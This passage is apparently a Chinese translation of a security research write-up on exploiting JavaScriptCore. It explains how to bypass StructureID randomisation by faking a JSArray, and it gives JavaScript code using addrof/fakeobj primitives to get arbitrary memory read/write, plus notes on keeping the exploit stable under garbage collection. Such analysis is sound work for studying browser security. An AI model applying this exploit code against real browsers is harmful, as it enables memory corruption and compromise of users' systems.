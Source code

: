 在这里，getIndexQuickly直接从butterfly加载元素，而canGetIndexQuickly只查看JSCell头部中的索引类型和butterfly中的length：

```
bool canGetIndexQuickly(unsigned i) const `{`
    const Butterfly* butterfly = this-&gt;butterfly();
    switch (indexingType()) `{`
    ...;
    case ALL_CONTIGUOUS_INDEXING_TYPES:
        return i &lt; butterfly-&gt;vectorLength() &amp;&amp; butterfly-&gt;contiguous().at(this, i);
`}`
```

这样现在允许伪造一些看起来有点像JSArray的东西，将它的backing storage指针指向另一个有效的JSArray，然后读取JSArray的JSCell头部，其中包含一个有效的StructureID:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t010ce679781a05bebf.png)

在这一点上，StructureID随机化完全被绕过。

下面的JavaScript代码实现了这个功能，通过使用一个“container”对象的内联属性来伪造这个对象:

```
let container = `{`
    jscell_header: jscell_header,
    butterfly: legit_float_arr,
`}`;

let container_addr = addrof(container);
// add offset from container object to its inline properties
let fake_array_addr = Add(container_addr, 16);  
let fake_arr = fakeobj(fake_array_addr);

// Can now simply read a legitimate JSCell header and use it.
jscell_header = fake_arr[0];
container.jscell_header = jscell_header;

// Can read/write to memory now by corrupting the butterfly
// pointer of the float array.
fake_arr[1] = 3.54484805889626e-310;    // 0x414141414141 in hex
float_arr[0] = 1337;
```

在访问0x414141414141左右的内存时，此代码将崩溃。因此，攻击者现在获得了一个任意内存读/写原语，尽管有一点限制：
- 只能读取和写入有效的double值
- 由于Butterfly也存储其自身的长度，因此必须定位Butterfly指针，使其长度看起来足够大,从而访问所需的数据


## 关于Exploit稳定性的注意事项

运行当前的exploit会产生内存读/写，但很可能在垃圾回收器下次运行并扫描所有可访问的堆对象后崩溃。

实现exploit稳定的一般方法是保持所有堆对象处于工作状态，在这种情况下，fake_arr最初是“GGC unsafe”，因为它包含一个无效的StructureID。当将其JSCell替换为有效的`container.jscell_header = jscell_header`时，伪造的对象变成“GC safe”，因为它对GC来说就像一个有效的JSArray。
